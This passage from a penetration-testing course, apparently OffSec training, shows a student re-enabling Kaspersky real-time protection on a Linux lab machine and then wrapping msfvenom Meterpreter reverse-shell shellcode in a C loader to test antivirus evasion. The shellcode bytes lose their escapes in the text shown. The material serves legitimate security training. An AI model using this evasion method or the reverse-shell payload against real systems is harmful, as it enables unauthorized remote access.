 > Listing 22 - 64-bit Zutto_Dekiru-encoded Meterpreter ELF file scanned

Let's try a different approach and put our unencoded x64 payload into a C program as shellcode instead.

This time, we'll restore real-time protection to make things more realistic. We can do this by again running kesl-control, this time using the --start-t flag, which starts a task. We'll specify task "1" again (the real-time protection task).

```
offsec@linuxvictim:/tmp$ sudo kesl-control --start-t 1
[sudo] password for offsec: 
Task has been started
```

> Listing 23 - Re-enabling realtime protection for our initial tests

Now that real-time protection is enabled, when we access or run a file, Kaspersky will automatically scan it for viruses.

We can regenerate a 64-bit unencoded shellcode with msfvenom, this time with an output type of "c", on our Kali VM. We will then insert it in a C program, which will act as a wrapper to load and run the shellcode.

We haven't covered C programming in this course, so let's take a moment to review each part of the code individually.

The first three lines are _include_ statements. They allow us access to functions included in the libraries that are defined by the C programming language standard.[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5296-2)

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
```

> Listing 24 - C code wrapper include statements

The next section is an unsigned character array variable called _buf_ that contains our shellcode output in C format from msfvenom.

```
// Our payload generated by msfvenom
unsigned char buf[] = 
"x48x31xffx6ax09x58x99xb6x10x48x89xd6x4dx31xc9"
"x6ax22x41x5axb2x07x0fx05x48x85xc0x78x51x6ax0a"
"x41x59x50x6ax29x58x99x6ax02x5fx6ax01x5ex0fx05"
"x48x85xc0x78x3bx48x97x48xb9x02x00x05x39xc0xa8"
"x76x03x51x48x89xe6x6ax10x5ax6ax2ax58x0fx05x59"
"x48x85xc0x79x25x49xffxc9x74x18x57x6ax23x58x6a"
"x00x6ax05x48x89xe7x48x31xf6x0fx05x59x59x5fx48"
"x85xc0x79xc7x6ax3cx58x6ax01x5fx0fx05x5ex6ax7e"
"x5ax0fx05x48x85xc0x78xedxffxe6";
```

> Listing 25 - C code wrapper payload buffer
